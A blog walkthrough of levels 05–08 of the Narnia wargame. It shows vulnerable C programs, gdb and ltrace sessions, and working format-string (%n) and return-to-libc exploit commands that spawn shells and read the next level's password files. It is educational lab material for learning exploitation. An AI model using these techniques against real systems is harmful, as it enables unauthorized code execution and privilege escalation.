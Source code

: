 Solving Narnia Part 2
#####################

:title: Solving Narnia Part 2
:date: 2015-04-13T00
:modified: 2015-04-13 20
:tags:


Carrying on from `Part 1 <http://unlogic.co.uk/2015/04/08/solving-narnia-part1/>`_

Level 05
-----------

.. code:: c

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	 
	int main(int argc, char **argv){
		int i = 1;
		char buffer[64];
	
		snprintf(buffer, sizeof buffer, argv[1]);
		buffer[sizeof (buffer) - 1] = 0;
		printf("Change i's value from 1 -> 500. ");
	
		if(i==500){
			printf("GOOD\n");
			system("/bin/sh");
		}
	
		printf("No way...let me give you a hint!\n");
		printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
		printf ("i = %d (%p)\n", i, &i);
		return 0;
	}

A fixed sized buffer again. This time however trying to overflow it in order to
write to :code:`i` won't work. If we look at line 9 and lookup the manpage for :code:`snprintf`
we see that 

    The  functions  snprintf() and vsnprintf() write at most size bytes
    (including the trailing null byte ('\0')) to str.

So we won't be able to overflow this buffer. Going through the usual possible exploits 
we've only really go one more to try: `format string attack <https://en.wikipedia.org/wiki/Uncontrolled_format_string>`_ or
*uncontrolled format string vulnerability*. This happens when user input
isn't checked, and allows the user to use format characters (:code:`%s`, :code:`%x`) to read or
manipulate the stack.

For me this is one of the harder exploits to understand, so this level is 
great practice for me. So if it doesn't make sense at first, stick with it and
try various strings. Hopefully you'll grok it at some point.

Let's check to see if our hunch is right. Using a few characters to start, I 
then append a list of :code:`%x`, which read values from the stack and print them.

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 `python -c "print 'aaaa'+'%x'*10"`
	Change i's value from 1 -> 500. No way...let me give you a hint!
	buffer : [aaaaf7eb75b6ffffffffffffd6aef7e2fbf8616161616265376636623537666] (63)
	i = 1 (0xffffd6cc)

Sure enough we see the beginning of the input string after the 4th :code:`%x`. So we then
put the address if :code:`i` into that location like and shorten the number of :code:`%x`.

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*5"`
	Change i's value from 1 -> 500. No way...let me give you a hint!
	buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8ffffd6cc] (44)
	i = 1 (0xffffd6cc)

Now we have the address of :code:`i`, we use :code:`%n` to write to that address, remembering
to remove one :code:`%x` to keep the right length.

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*4 + '%n'"`
	Change i's value from 1 -> 500. No way...let me give you a hint!
	buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8] (36)
	i = 36 (0xffffd6cc)

So we see that we've written the length of the string into :code:`i`. We already have 
a value of 36, but we need 500. To achieve this we need to pad the string.

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%500d' + '%n'")
	Change i's value from 1 -> 500. No way...let me give you a hint!
	buffer : [����f7eb75b6ffffffffffffd6ae                                   ] (63)
	i = 528 (0xffffd6cc)

We're *28* over the target, so let's reduce the padding

.. code:: console

	narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%472d' + '%n'")
	Change i's value from 1 -> 500. GOOD
	$ whoami
	narnia6
	$ cat /etc/narnia_pass/narnia6
	[password]

Level 06
-----------

.. code:: c 

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	
	extern char **environ;
	
	// tired of fixing values...
	// - morla
	unsigned long get_sp(void) {
	       __asm__("movl %esp,%eax\n\t"
	               "and $0xff000000, %eax"
	               );
	}
	
	int main(int argc, char *argv[]){
		char b1[8], b2[8];
		int  (*fp)(char *)=(int(*)(char *))&puts, i;
	
		if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }
	
		/* clear environ */
		for(i=0; environ[i] != NULL; i++)
			memset(environ[i], '\0', strlen(environ[i]));
		/* clear argz    */
		for(i=3; argv[i] != NULL; i++)
			memset(argv[i], '\0', strlen(argv[i]));
	
		strcpy(b1,argv[1]);
		strcpy(b2,argv[2]);
		//if(((unsigned long)fp & 0xff000000) == 0xff000000)
		if(((unsigned long)fp & 0xff000000) == get_sp())
			exit(-1);
		fp(b1);
	
		exit(1);
	}

In this rather complicated looking listing we notice a few things:

* line 17 is a function pointer to :code:`puts`
* line 33 calls the function :code:`fp` points to
* line 31 prevents :code:`fp` from pointing to anything in our frame

The last lines means we need to point :code:`fp` to a call in a system library. 
This is going to be a `ret to libc attack <https://en.wikipedia.org/wiki/Return-to-libc_attack>`_. We 
need to find the location of the function we want to execute. We want a shell, so our 
best option would be to execute :code:`system('/bin/sh')`. As luck would have it, :code:`puts` and
:code:`system` both have the same function definition: :code:`int system(const char *command);` and
:code:`int puts(const char *s);`

Let's fire up gdb and figure out our addresses.

.. code:: console

	narnia6@melinda:/narnia$ gdb ./narnia6 -q
	Reading symbols from ./narnia6...(no debugging symbols found)...done.
	(gdb) disass main
	Dump of assembler code for function main:
	   0x08048559 <+0>:	push   %ebp
	   0x0804855a <+1>:	mov    %esp,%ebp
	   0x0804855c <+3>:	push   %ebx
	   0x0804855d <+4>:	and    $0xfffffff0,%esp
	   0x08048560 <+7>:	sub    $0x30,%esp
	
	    <-- snip -->
	
	   0x0804869b <+322>:	movl   $0xffffffff,(%esp)      
	   0x080486a2 <+329>:	call   0x8048410 <exit@plt>
	   0x080486a7 <+334>:	lea    0x20(%esp),%eax
	   0x080486ab <+338>:	mov    %eax,(%esp)
	   0x080486ae <+341>:	mov    0x28(%esp),%eax
	   0x080486b2 <+345>:	call   *%eax                <-- calling *fp*
	   0x080486b4 <+347>:	movl   $0x1,(%esp)
	   0x080486bb <+354>:	call   0x8048410 <exit@plt>
	End of assembler dump.
	
	(gdb) break *0x080486b2
	Breakpoint 1 at 0x80486b2
	(gdb) r aaaaaaaabbbb ccccccccdddd
	Starting program: /games/narnia/narnia6 aaaaaaaabbbb ccccccccdddd
	
	Breakpoint 1, 0x080486b2 in main ()
	(gdb) x/50wx $esp
	0xffffd680:	0xffffd6a0	0xffffd8ac	0x00000021	0x08048712
	0xffffd690:	0x00000003	0xffffd754	0x63636363	0x63636363
	0xffffd6a0:	0x64646464	0x61616100	0x62626262	0x00000000
	0xffffd6b0:	0x080486c0	0xf7fca000	0x00000000	0xf7e3ca63
	0xffffd6c0:	0x00000003	0xffffd754	0xffffd764	0xf7feacea
	0xffffd6d0:	0x00000003	0xffffd754	0xffffd6f4	0x08049978
	0xffffd6e0:	0x08048290	0xf7fca000	0x00000000	0x00000000
	0xffffd6f0:	0x00000000	0x32aaee13	0x0a932a03	0x00000000
	0xffffd700:	0x00000000	0x00000000	0x00000003	0x08048450
	0xffffd710:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd720:	0x00000003	0x08048450	0x00000000	0x08048471
	0xffffd730:	0x08048559	0x00000003	0xffffd754	0x080486c0
	0xffffd740:	0x08048730	0xf7feb180
	(gdb) p system
	$1 = {<text variable, no debug info>} 0xf7e62cd0 <system>
	(gdb) c
	Continuing.
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()

What I did here was to disassemble the :code:`main` function and find out where
:code:`fp` is getting called, so that I can set a breakpoint on it. Then I
run the binary and inspect the stack before the call to :code:`fp`. What we see is
that :code:`$esp` points to :code:`0xffffd6a0`, which is where the last 4 values of
:code:`b2` are stored. This is also the argument that will be passed to the :code:`fp` call.
Function arguments are pushed onto the stack before a function is called. So
We want this to point to :code:`/bin/sh`, and we want :code:`fp` to point to :code:`system`. This is
the reason for the :code:`p system`, it tells us the location of :code:`system`.
Also note that our :code:`segfault` is showing us the last
4 digits of :code:`b1`. Perfect, I can use that to overwrite :code:`fp` with the address of
:code:`system` and I should be good to go.

As this is a little more advanced, let's go over the steps:

- Get the address of the argument to whatever :code:`fp` points to
- Figure out how to overwrite that with our argument
- Get the address of :code:`system`
- Overwrite what :code:`fp` points to with :code:`system`'s address 
- Assemble payload and hopefully get a shell

So the last step:

.. code:: console

	narnia6@melinda:/narnia$ /games/narnia/narnia6 `python -c "print 'a'*8 + '\xd0\x2c\xe6\xf7' +' '+ 'b'*8 + '/bin/sh'"`
	$ whoami
	narnia7
	$ cat /etc/narnia_pass/narnia7
	[password]

Level 07
--------

.. code:: c 

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	#include <stdlib.h>
	#include <unistd.h>
	
	int goodfunction();
	int hackedfunction();
	
	int vuln(const char *format){
	    char buffer[128];
	    int (*ptrf)();
	
	    memset(buffer, 0, sizeof(buffer));
	    printf("goodfunction() = %p\n", goodfunction);
	    printf("hackedfunction() = %p\n\n", hackedfunction);
	
	    ptrf = goodfunction;
	    printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);
	
	    printf("I guess you want to come to the hackedfunction...\n");
	    sleep(2);
	    ptrf = goodfunction;
	
	    snprintf(buffer, sizeof buffer, format);
	
	    return ptrf();
	}
	
	int main(int argc, char **argv){
	    if (argc <= 1){
	            fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
	            exit(-1);
	    }
	    exit(vuln(argv[1]));
	}
	
	int goodfunction(){
	    printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
	    fflush(stdout);
	        
	    return 0;
	}
	
	int hackedfunction(){
	    printf("Way to go!!!!");
	    fflush(stdout);
	    system("/bin/sh");
	
	    return 0;
	}

The presence of :code:`snprintf` indicates that this will be another format string attack.
Great, another one of my least favourites. This should help imprint it on my
brain though, so let's attack this

.. code:: console

	(gdb) disass vuln
	Dump of assembler code for function vuln:
	   0x080485cd <+0>:	push   %ebp
	   0x080485ce <+1>:	mov    %esp,%ebp
	   0x080485d0 <+3>:	sub    $0xa8,%esp
	   0x080485d6 <+9>:	movl   $0x80,0x8(%esp)
	   0x080485de <+17>:	movl   $0x0,0x4(%esp)
	   0x080485e6 <+25>:	lea    -0x88(%ebp),%eax
	   0x080485ec <+31>:	mov    %eax,(%esp)
	   0x080485ef <+34>:	call   0x80484b0 <memset@plt>
	   0x080485f4 <+39>:	movl   $0x80486e0,0x4(%esp)
	   0x080485fc <+47>:	movl   $0x80487d0,(%esp)
	   0x08048603 <+54>:	call   0x8048420 <printf@plt>
	   0x08048608 <+59>:	movl   $0x8048706,0x4(%esp)
	   0x08048610 <+67>:	movl   $0x80487e5,(%esp)
	   0x08048617 <+74>:	call   0x8048420 <printf@plt>
	   0x0804861c <+79>:	movl   $0x80486e0,-0x8c(%ebp)
	   0x08048626 <+89>:	mov    -0x8c(%ebp),%eax
	   0x0804862c <+95>:	lea    -0x8c(%ebp),%edx
	   0x08048632 <+101>:	mov    %edx,0x8(%esp)
	   0x08048636 <+105>:	mov    %eax,0x4(%esp)
	   0x0804863a <+109>:	movl   $0x80487fd,(%esp)
	   0x08048641 <+116>:	call   0x8048420 <printf@plt>
	   0x08048646 <+121>:	movl   $0x8048818,(%esp)
	   0x0804864d <+128>:	call   0x8048450 <puts@plt>
	   0x08048652 <+133>:	movl   $0x2,(%esp)
	   0x08048659 <+140>:	call   0x8048440 <sleep@plt>
	   0x0804865e <+145>:	movl   $0x80486e0,-0x8c(%ebp)
	   0x08048668 <+155>:	mov    0x8(%ebp),%eax
	   0x0804866b <+158>:	mov    %eax,0x8(%esp)
	   0x0804866f <+162>:	movl   $0x80,0x4(%esp)
	   0x08048677 <+170>:	lea    -0x88(%ebp),%eax
	   0x0804867d <+176>:	mov    %eax,(%esp)
	   0x08048680 <+179>:	call   0x80484c0 <snprintf@plt>
	   0x08048685 <+184>:	mov    -0x8c(%ebp),%eax
	   0x0804868b <+190>:	call   *%eax
	   0x0804868d <+192>:	leave  
	   0x0804868e <+193>:	ret    
	End of assembler dump.
	(gdb) break *0x08048685

So disassmble the :code:`vuln` function and set a break point just 
before the call of the function pointer. In the process of this challenge
I learned of a nice way to determine the number of :code:`%x` you need. Using
:code:`ltrace` it's possible to increment the number of :code:`%x` 's until you
see your string in the output again. I'll paste only the correcy output here

.. code:: console 

	narnia7@melinda:/narnia$ ltrace ./narnia7 `python -c "print 'aaaabbbb' + '%x'*7"`
	__libc_start_main(0x804868f, 2, 0xffffd774, 0x8048740 <unfinished ...>
	memset(0xffffd630, '\0', 128)                                = 0xffffd630
	printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
	)                   = 27
	printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706
	
	)               = 30
	printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd62cbefore : ptrf() = 0x80486e0 (0xffffd62c)
	) = 41
	puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
	)                  = 50
	sleep(2)                                                     = 0
	snprintf("aaaabbbb8048238ffffd688f7ffda940"..., 128, "aaaabbbb%x%x%x%x%x%x%x", 0x8048238, 0xffffd688, 0xf7ffda94, 0, 0x80486e0, 0x61616161, 0x62626262) = 55
	puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
	)                  = 61
	fflush(0xf7fcaac0)                                           = 0
	exit(0 <no return ...>
	+++ exited (status 0) +++

You can see the *aaaa* and *bbbb* at line 14. So we have 7 :code:`%x` to get the second value.

Let's take a look at the stack with that input

.. code:: console

	(gdb) r $(python -c "print 'aaaabbbb' + '%x'*7")
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaabbbb' + '%x'*7")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x080486e0
	0xffffd610:	0x61616161	0x62626262	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x36306536	0x36313631	0x36313631
	0xffffd640:	0x36323632	0x00323632	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000

So at :code:`0xffffd60c` is the address of :code:`goodfunction`. We need to overwrite that
to point to :code:`0x8048706`, our :code:`hackedfunction`. So as before in `level 05 <http://unlogic.co.uk/2015/04/10/solving-narnia-part-2/#level-05>`_
we use :code:`%n` to try and overwrite this value.

.. code:: bash

	(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")
	
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x0000002f
	0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x36306536	0x36313631	0x00313631
	0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000

The value of *2f* at :code:`0xffffd60c` shows us that our overwrite was successful 
and we wrote the value of *47*\ . We need to write :code:`0x8048706` which is :code:`134514438` in decimal.
So let's add our :code:`%d` in and remember to adjust the number of :code:`%x`\ s too, so we can see
how much padding we need

.. code:: console

	(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x00000031
	0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x31306536	0x37333336	0x37383137
	0xffffd640:	0x00000033	0x00000000	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000

Ok, so :code:`0x8048706 - 0x00000031 = 0x80486d6` or *134514389* in decimal.
Let's see if I'm right

.. code:: console

	(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd899	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x080486fc
	0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x20306536	0x20202020	0x20202020
	0xffffd640:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd650:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd660:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd670:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd680:	0x20202020	0x20202020	0x20202020	0x00202020

Still a little off. Adjusting the value again

.. code:: console

	(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	
	Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd60c)
	I guess you want to come to the hackedfunction...
	
	Breakpoint 1, 0x08048685 in vuln ()
	(gdb) x/40wx $esp
	0xffffd5f0:	0xffffd610	0x00000080	0xffffd899	0x08048238
	0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x08048706
	0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
	0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
	0xffffd630:	0x38343038	0x20306536	0x20202020	0x20202020
	0xffffd640:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd650:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd660:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd670:	0x20202020	0x20202020	0x20202020	0x20202020
	0xffffd680:	0x20202020	0x20202020	0x20202020	0x00202020
	(gdb) c
	Continuing.
	Way to go!!!!$

And now we need to run it from the commandline to actually get a proper setuid shell

.. code:: console

	narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd61c)
	I guess you want to come to the hackedfunction...
	Welcome to the goodfunction, but i said the Hackedfunction..
	narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x1c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
	goodfunction() = 0x80486e0
	hackedfunction() = 0x8048706
	
	before : ptrf() = 0x80486e0 (0xffffd61c)
	I guess you want to come to the hackedfunction...
	Way to go!!!!$ whomai
	/bin/sh: 1: whomai: not found
	$ whoami
	narnia8
	$ cat /etc/narnia_pass/narnia8 
	[password]

Notice that the address of :code:`ptrf` is not the same in the shell :)

Level 08
-----------

.. code:: c 

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	// gcc's variable reordering fucked things up
	// to keep the level in its old style i am 
	// making "i" global unti i find a fix 
	// -morla 
	int i; 
	
	void func(char *b){
	    char *blah=b;
	    char bok[20];
	    //int i=0;
	    
	    memset(bok, '\0', sizeof(bok));
	    for(i=0; blah[i] != '\0'; i++)
	        bok[i]=blah[i];
	
	    printf("%s\n",bok);
	}
	
	int main(int argc, char **argv){
	        
	    if(argc > 1)       
	        func(argv[1]);
	    else    
	    printf("%s argument\n", argv[0]);
	
	    return 0;
	}
	

I'm struggling with this, and rather than delay the whole post because of the last
level, I decided to post anyway. I'll update this when I have this figured out.

Sorry.
